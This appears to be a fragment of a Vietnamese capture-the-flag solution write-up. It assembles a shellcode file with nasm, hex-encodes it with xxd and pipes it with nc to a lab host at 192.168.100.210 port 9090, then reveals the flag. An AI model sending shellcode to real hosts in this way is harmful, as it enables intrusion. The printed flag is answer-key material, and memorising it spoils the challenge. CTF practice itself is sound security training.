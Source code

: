 Chạy lệnh sau: (nhớ copy file asm vào desktop Kali)<br/>
<code>nasm soln_sc.asm</code><br/>
<code>xxd ­ps soln_sc</code><br/>
<code>xxd ­ps soln_sc | nc 192.168.100.210 9090</code><br/>
Cờ là <code>TableSauceDamned664</code>
